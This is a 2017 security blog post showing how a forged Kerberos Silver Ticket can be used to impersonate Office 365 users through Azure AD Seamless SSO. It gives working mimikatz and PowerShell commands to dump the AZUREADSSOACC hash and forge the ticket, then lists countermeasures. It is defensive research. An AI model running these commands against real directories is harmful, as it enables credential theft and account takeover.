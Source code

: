 ﻿---
ref: impersonating
title: Impersonating Office 365 Users With&nbsp;Mimikatz
date: 2017-01-15T19:35:43+00:00
layout: post
lang: en
image: /assets/images/aad_sso2.png
permalink: /en/impersonating-office-365-users-mimikatz/
tags:
    - 'Active Directory'
    - 'Microsoft Azure'
    - Mimikatz
    - 'Office 365'
    - Security
---

Last month, Microsoft has introduced a&nbsp;new feature of&nbsp;Azure AD Connect called [Single Sign On](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso). It&nbsp;allows companies to&nbsp;configure SSO between AD and&nbsp;AAD without the&nbsp;need to&nbsp;deploy [ADFS](https://learn.microsoft.com/en-us/windows-server/identity/active-directory-federation-services), which&nbsp;makes it&nbsp;an&nbsp;ideal solution for&nbsp;SMEs. Here is&nbsp;a&nbsp;high-level diagram of&nbsp;this&nbsp;functionality:

![Azure AD Connect SSO Diagram](https://docs.microsoft.com/en-us/azure/active-directory/connect/media/active-directory-aadconnect-sso/sso2.png)

As we can see from&nbsp;the&nbsp;diagram above, Azure AD exposes a&nbsp;[publicly available endpoint](https://autologon.microsoftazuread-sso.com) that&nbsp;accepts Kerberos tickets and&nbsp;translates them into SAML and&nbsp;JWT tokens, which&nbsp;are understood and&nbsp;trusted by&nbsp;other cloud services like Office 365, Azure or&nbsp;Salesforce. And&nbsp;wherever&nbsp;you have Kerberos-based authentication, it&nbsp;can be&nbsp;attacked using [Silver Tickets](https://adsecurity.org/?p=2011).

In&nbsp;usual circumstances this&nbsp;attack can only be&nbsp;performed from&nbsp;the&nbsp;intranet. But&nbsp;what really caught my attention is&nbsp;the&nbsp;fact that&nbsp;with&nbsp;this&nbsp;new SSO feature, **Silver Tickets could be&nbsp;used from&nbsp;the&nbsp;entire internet**. Let’s give it&nbsp;a&nbsp;try then!

<!--more-->

## The&nbsp;Nasty Stuff

To&nbsp;test this&nbsp;technique, we need to&nbsp;retrieve some&nbsp;information from&nbsp;Active Directory first:

1. NTLM password hash of&nbsp;the&nbsp;[AZUREADSSOACC](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#how-single-sign-on-works) account, e.g. *f9969e088b2c13d93833d0ce436c76dd*. This&nbsp;value can be&nbsp;retrieved from&nbsp;AD using [mimikatz](https://github.com/gentilkiwi/mimikatz):

    ```bat
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```

    My own [DSInternals PowerShell Module](https://github.com/MichaelGrafnetter/DSInternals) could do&nbsp;the&nbsp;same job:
    
    ```powershell
    Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso `
    -Server lon-dc1.contoso.local
    ```
    
    Both of&nbsp;these commands need *Domain Admins* permissions.

2. Name of&nbsp;the&nbsp;AD domain, e.g. *contoso.local*.
3. AAD logon name of&nbsp;the&nbsp;user we want to&nbsp;impersonate, e.g. elrond@contoso.com. This&nbsp;is&nbsp;typically either his&nbsp;*userPrincipalName* or&nbsp;*mail* attribute from&nbsp;the&nbsp;on-prem AD.
4. SID of&nbsp;the&nbsp;user we want to&nbsp;impersonate, e.g. *S-1-5-21-2121516926-2695913149-3163778339-1234*.

Having this&nbsp;information we can now&nbsp;create and&nbsp;use the&nbsp;Silver Ticket on any Windows computer connected to&nbsp;the&nbsp;internet. It&nbsp;does not even&nbsp;matter whether&nbsp;it&nbsp;is&nbsp;joined to&nbsp;a&nbsp;domain or&nbsp;a&nbsp;workgroup:

1. Create the&nbsp;Silver Ticket and&nbsp;inject it&nbsp;into Kerberos cache:

    ```bat
    mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
        
    ![Mimikatz Silver Ticket Screenshot](../../assets/images/aad_sso3.png)

2. Launch *Mozilla Firefox*.
3. Go to&nbsp;`about:config` and&nbsp;set the&nbsp;[network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) preference to&nbsp;[value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) “https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com”.
4. Navigate to&nbsp;any web application that&nbsp;is&nbsp;integrated with&nbsp;our AAD domain. We will use [Office 365](https://portal.office.com), which&nbsp;is&nbsp;the&nbsp;most commonly used one.
5. Once&nbsp;at the&nbsp;logon screen, fill in&nbsp;the&nbsp;user name, while&nbsp;leaving the&nbsp;password field empty. Then press TAB or&nbsp;ENTER.

    ![Office 365 Sing-In Screen](../../assets/images/aad_sso1.png)

6. That’s it, we’re in!

    ![Office 365 Home](../../assets/images/aad_sso2.png)

7. To&nbsp;log in&nbsp;as&nbsp;another user, run the&nbsp;command below and&nbsp;repeat steps 1-6.

    ```bat
    klist purge
    ```

It is&nbsp;also worth noting that&nbsp;the&nbsp;password of&nbsp;the&nbsp;*AZUREADSSOACC* account never changes, so&nbsp;the&nbsp;stolen hash/key will work forever. It&nbsp;could therefore be&nbsp;misused by&nbsp;highly privileged employees to&nbsp;retain access to&nbsp;the&nbsp;IT&nbsp;environment after&nbsp;leaving the&nbsp;company. Dealing with&nbsp;such situations is&nbsp;a&nbsp;much broader problem, which&nbsp;is&nbsp;aptly depicted by&nbsp;the&nbsp;following old Narnian saying:

![Once a&nbsp;Domain Admin, always a&nbsp;Domain Admin](../../assets/images/narnia.png)

## Countermeasures

First of&nbsp;all, I&nbsp;have to&nbsp;point out that&nbsp;this&nbsp;technique would not be&nbsp;very practical in&nbsp;real-world situations due to&nbsp;these reasons:

- The&nbsp;SSO feature is&nbsp;in&nbsp;Preview and&nbsp;has to&nbsp;be&nbsp;explicitly enabled by&nbsp;an&nbsp;AD admin. Just a&nbsp;handful of&nbsp;companies probably use it&nbsp;at the&nbsp;time of&nbsp;writing this&nbsp;article and&nbsp;enterprises will quite surely stick to&nbsp;their proven ADFS deployments even&nbsp;after&nbsp;this&nbsp;feature reaches GA.
- The&nbsp;hash/key of&nbsp;the&nbsp;*AZUREADSSOACC* account can only be&nbsp;retrieved by&nbsp;Domain Admins from&nbsp;DCs by&nbsp;default. But&nbsp;if&nbsp;an&nbsp;attacker had such highly privileged access to&nbsp;an&nbsp;Active Directory domain, he/she would be&nbsp;able to&nbsp;do&nbsp;some&nbsp;way nastier stuff than&nbsp;just replicating a&nbsp;single hash.
- The&nbsp;password of&nbsp;the&nbsp;*AZUREADSSOACC* account is&nbsp;randomly generated during the&nbsp;deployment of&nbsp;*Azure AD Connect*. It&nbsp;would therefore be&nbsp;impossible to&nbsp;guess this&nbsp;password.

As&nbsp;you can see, there is&nbsp;simply no need to&nbsp;panic. But&nbsp;just to&nbsp;be&nbsp;safe, I&nbsp;would recommend these generic security measures:

- Only delegate administrative access to&nbsp;trusted individuals and&nbsp;keep the&nbsp;number of&nbsp;members of&nbsp;the&nbsp;*Domain Admins* group (and other privileged groups) as&nbsp;low as&nbsp;possible.
- Protect backups of&nbsp;Domain Controllers, so&nbsp;no-one could [extract sensitive information](/en/dumping-ntds-dit-files-using-powershell/) from&nbsp;them.
- Enable and&nbsp;enforce [Azure MFA](https://docs.microsoft.com/en-us/azure/multi-factor-authentication/multi-factor-authentication) for&nbsp;users authenticating from&nbsp;external IP addresses. It&nbsp;is&nbsp;very straightforward and&nbsp;effective against many kinds of&nbsp;attacks.
- Consider implementing [Azure AD conditional access](https://docs.microsoft.com/cs-cz/azure/active-directory/active-directory-conditional-access).
- Deploy [Microsoft Defender for&nbsp;Identity](https://www.microsoft.com/en-us/cloud-platform/advanced-threat-analytics) to&nbsp;detect malicious replication and&nbsp;other threats to&nbsp;your AD infrastructure.  
- Force a&nbsp;password change on the&nbsp;*AZUREADSSOACC* account by&nbsp;<del>re-deploying Azure AD Connect SSO</del> [running the&nbsp;Update-AzureSSOForest cmdlet](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso-faq#how-can-i-roll-over-the-kerberos-decryption-key-of-the-azureadssoacc-computer-account) after&nbsp;a&nbsp;highly privileged employee leaves the&nbsp;company and/or on a&nbsp;regular basis. This&nbsp;should be&nbsp;done together with&nbsp;resetting the&nbsp;password of&nbsp;*krbtgt* and&nbsp;other sensitive accounts.

## Conclusion

Although&nbsp;the&nbsp;Silver Ticket attack has been here for&nbsp;some&nbsp;years, it&nbsp;is&nbsp;now&nbsp;probably the&nbsp;first time it&nbsp;can be&nbsp;used over the&nbsp;internet against a&nbsp;cloud service, which&nbsp;theoretically makes it&nbsp;even&nbsp;more potent. On the&nbsp;other hand, it&nbsp;would be&nbsp;quite hard to  perform this&nbsp;technique in&nbsp;a&nbsp;real-world environment due to&nbsp;impracticalities discussed in&nbsp;the&nbsp;previous section, so&nbsp;there is&nbsp;no need to&nbsp;worry. The&nbsp;new Seamless SSO feature of&nbsp;Azure AD Connect can therefore be&nbsp;considered safe and&nbsp;preferred solution for&nbsp;SSO to&nbsp;Office 365.
